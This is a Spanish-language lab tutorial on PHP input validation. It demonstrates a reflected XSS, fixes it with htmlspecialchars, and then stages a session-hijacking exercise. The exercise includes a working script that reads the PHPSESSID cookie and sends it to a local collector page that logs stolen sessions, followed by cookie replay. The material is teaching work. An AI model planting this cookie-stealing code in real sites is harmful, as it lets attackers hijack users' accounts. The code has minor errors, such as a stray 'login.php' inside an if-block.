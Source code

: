 ```yaml
---

typora-copy-images-to: ../assets/img/
typora-root-url: ../
layout: post
categories: 
conToc: true
title: Validación
---
```




## Validación

Primero, deberemos crear el fichero post.php:

```php+HTML
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>

<?php
if ($_SERVER['REQUEST_METHOD'] == "GET") {
?>
<p>Nuevo Post</p>
<form action='post.php' method='post'>
	<textarea name="textarea" rows="10" cols="50">Escribe algo aquí</textarea>
	<input type = 'submit' value='enviar'>
</form>
<?php
}else
	echo $_POST["textarea"] ?? "";
?>
</body>
</html>
```

Ahora accederemos a localhost:8080/public_html/post.php y veremos el formulario 

![image-20220501105612803](/assets/img/image-20220501105612803.png)



En el formulario pondremos lo siguiente:

```php
<script>alert('hackeado')</script>
```

![image-20220501105636574](/assets/img/image-20220501105636574.png)



Para remediar este tipo de ataques, deberemos añadir lo siguiente a nuestro php:

```php+HTML
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>

<?php
if ($_SERVER['REQUEST_METHOD'] == "GET") {
?>
<p>Nuevo Post</p>
<form action='post.php' method='post'>
	<textarea name="textarea" rows="10" cols="50">Escribe algo aquí</textarea>
	<input type = 'submit' value='enviar'>
</form>
<?php
}else
	echo htmlspecialchars($_POST["textarea"]) ?? "";
?>
</html>
```

![image-20220501105715016](/assets/img/image-20220501105715016.png)

Lo siguiente que realizaremos es un robo de sesión, para ello, deberemos crear los siguientes ficheros:

- robo-de-sesion.php:

- robo-de-sesion.php:

  ```php+HTML
  <?php
  $session_robada = $_GET['session_robada'] ?? "";
  $session_robada .= "\n";
  $fichero = 'data/sessions.txt';
  // Abre el fichero para obtener el contenido existente
  $actual = file_get_contents($fichero);
  // Escribe el contenido al fichero
  file_put_contents($fichero, $session_robada, FILE_APPEND);
  ```

  

- login.php

  ```php+HTML
  <?php
  session_start();
  
  //En una aplicación real, los usuarios estarían almaenados en la base de datos
  $all_users = array ("mario" => "qwerty", "juan" => "123456");
  $valid_users = array_keys($all_users);
  
  $ya_registrado = $_SESSION['ya_registrado'] ?? false;
  
  
  if ($_SERVER['REQUEST_METHOD'] == "POST" && !$ya_registrado){
  	$usuario = $_POST['usuario'] ?? "";
  	$password = $_POST['password'] ?? "";
      
  	$ya_registrado = (in_array($usuario, $valid_users)) && ($password == $all_users[$usuario]);
  	if ($ya_registrado){login.php
  		$_SESSION['ya_registrado'] = true;
  		$_SESSION['usuario'] = $usuario;
  	}
  }
  
  if ($ya_registrado){
  	// Si llega aqui es porque es un usuario válido.
  	echo "<p>Welcome " . $_SESSION['usuario'] . "</p>";
  	echo "<p>Congratulations, you are into the system.</p>";
  }else{
  ?>
  	
  	<form action='login.php' method='post'>
  		Usuario: <input type='text' name = "usuario" id="usuario" value=""><br>
  		Contraseña: <input type='password' name = "password" id = "password" value=""><br>
  		<input type='submit' value='Enviar'>
  	</form>
  <?php
  }
  ?>
  ```

  

- logout.php

  ```php+HTML
  <?php
  //logout.php
  session_start();
  session_unset();
  session_destroy();
  //redirigimos a login.php
  header('Location: login.php');
  ```

  

- hackeada.php

  ```php+HTML
  <!DOCTYPE html>
  <html lang="es">
  <head>
  <meta charset="utf-8">
  </head>
  <body>
      Esta es una página que ha sido hackeada mediante XSS.
  Al acceder, envía la cookie de sesión al sitio http://evil.local
  <script>
  var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
  var myImage = new Image(1,1);
  myImage.src = "http://127.0.0.1:8081/robo-de-sesion.php?session_robada=" + c;
  </script>
  </body>
  </html>
  ```

Lo siguiente que haremos, será entrar a login.php, e inicieramos sesión con el usuario: Juan y la Contraseña: 123456

![image-20220501105938285](/assets/img/image-20220501105938285.png)

Como podemos ver:

![image-20220501110001737](/assets/img/image-20220501110001737.png)

Lo siguiente que haremos, será abrir  el Developer Tools, y aquí accederemos al apartado de Red y copiaremos la Coockie

![image-20220501110437756](/assets/img/image-20220501110437756.png)

Lo siguiente que haremos será en el Developer Tools, y deberemos editarlo cambiando la cookie, y poniendo la que hemos extraído antes.

![image-20220501115535101](/assets/img/image-20220501115535101.png)

Y como podemos ver, hemos podido iniciar sesión, con la sesión de Juan sin poner ninguna contraseña:

![image-20220501115559246](/assets/img/image-20220501115559246.png)